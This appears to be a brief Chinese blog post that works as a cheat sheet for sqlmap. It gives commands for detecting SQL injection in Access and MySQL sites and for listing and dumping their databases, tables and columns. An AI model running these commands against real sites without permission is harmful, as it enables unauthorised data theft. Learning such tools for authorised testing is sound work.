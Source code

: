 ```yaml
---
layout:     post
title:      SQLMAP
subtitle:   SQLMAP基本使用
date:       2019-04-28
author:     By Oxof
header-img: img/zhelong.jpg
catalog:    true
tags:
    - 安全工具
    - 渗透测试
---
```




access数据库注入
sqlmap -u  "URL?id=1"      //检测注入
sqlmap -u "url" --tables        //猜表名
sqlmap -u "url" -T 表名 --dump     //猜表名下的数据
sqlmap -u “url”-T 表名 -C “列名，列名” --dump    //猜表名下的列名内容



mysql注入

sqlmap -u  "URL?id=1"    //检测注入
sqlmap -u "URL?id=1" --dbs     //查看当前网站数据库
sqlmap -u "URL?id=1" --current-db   //查看当前网站使用数据库
sqlmap -u "URL?id=1" -D 数据库名 --dump
sqlmap -u "URL?id=1" -D 数据库名 -T 表名 --dump
